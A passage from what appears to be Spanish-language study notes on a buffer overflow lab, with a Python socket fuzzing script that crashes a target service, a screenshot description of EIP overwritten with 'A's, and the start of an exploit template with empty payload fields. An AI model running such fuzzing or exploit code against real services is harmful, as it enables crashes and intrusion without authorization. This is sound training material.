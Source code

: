 El siguiente paso será utilizar un script de python para realizar el fuzzing para ir probando en qué punto se crashea el programa:
```python
#!/usr/bin/env python3
  
import socket, time, sys

ip = ""  
port = 9999
timeout = 1
prefix = ""
  
string = prefix + "A" * 100
  
while True:
   try:
     with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
       s.settimeout(timeout)
       s.connect((ip, port))
       s.recv(1024)
       print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
       s.send(bytes(string, "latin-1"))
       s.recv(1024)
   except:
     print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
     sys.exit(0)
   string += 100 * "A"
   time.sleep(1)
```

Lo ejecutamos y vemos que el programa crashea
![[Pasted image 20240710075415.png]]
![[Pasted image 20240710075507.png]]

Una vez ejecutado vemos que el EIP marca 414141, lo cual es lo que debe ocurrir (el EIP consiste en la dirección de la próxima instrucción que se ejecutará):
![[Pasted image 20240710075645.png]]

## OBTENER EL OFFSET
Una vez obtenido el punto exacto donde crashea el programa, vamos a necesitar el offset, lo cual consiste en la cantidad de bytes que hay desde el comienzo del búfer hasta el punto donde se produce el desbordamiento.

Y para ello vamos a enviar un número de esa data algo mayor, por lo que por ejemplo vamos a sumar +400 bytes, por lo que si el programa crasheaba a los 600, le añadimos unos +400 que hacen 1000.

Para este punto, vamos a necesitar otro script de python, que será el siguiente:
```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

```